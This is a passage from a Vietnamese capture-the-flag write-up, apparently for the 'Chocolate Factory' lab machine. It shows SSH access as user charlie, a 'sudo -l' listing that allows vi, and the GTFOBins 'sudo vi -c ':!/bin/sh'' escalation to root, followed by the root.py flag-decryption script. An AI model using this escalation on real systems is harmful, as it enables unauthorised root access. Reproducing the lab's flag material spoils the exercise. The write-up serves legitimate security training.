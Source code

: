 ```python
┌──(neo㉿kali)-[~]
└─$ ssh -i id_rsa charlie@10.10.184.210
...
...
charlie@chocolate-factory:/$ 
charlie@chocolate-factory:/$ id
uid=1000(charlie) gid=1000(charley) groups=1000(charley),0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
charlie@chocolate-factory:/$ cd /home/charlie
charlie@chocolate-factory:/home/charlie$ ls
teleport  teleport.pub  user.txt
charlie@chocolate-factory:/$
```

## Privilege escalation

`sudo -l`

```python
charlie@chocolate-factory:/home/charlie$ sudo -l
Matching Defaults entries for charlie on chocolate-factory:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User charlie may run the following commands on chocolate-factory:
    (ALL : !root) NOPASSWD: /usr/bin/vi
charlie@chocolate-factory:/home/charlie$ 
```

Thử qua [GTFOBins](https://gtfobins.github.io/gtfobins/vi/) và tôi tìm thấy cách leo thang đặc quyền với *vi*

```python
charlie@chocolate-factory:/home/charlie$ sudo vi -c ':!/bin/sh' /dev/null

# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root/   
root.py
# cat /root/root.py
from cryptography.fernet import Fernet
import pyfiglet
key=input("Enter the key:  ")
f=Fernet(key)
encrypted_mess= 'gAAAAABfdb52eejIlEaE9ttPY8ckMMfHTIw5lamAWMy8yEdGPhnm9_H_yQikhR-bPy09-NVQn8lF_PDXyTo-T7CpmrFfoVRWzlm0OffAsUM7KIO_xbIQkQojwf_unpPAAKyJQDHNvQaJ'
dcrypt_mess=f.decrypt(encrypted_mess)
mess=dcrypt_mess.decode()
display1=pyfiglet.figlet_format("You Are Now The Owner Of ")
display2=pyfiglet.figlet_format("Chocolate Factory ")
print(display1)
print(display2)
print(mess)
```
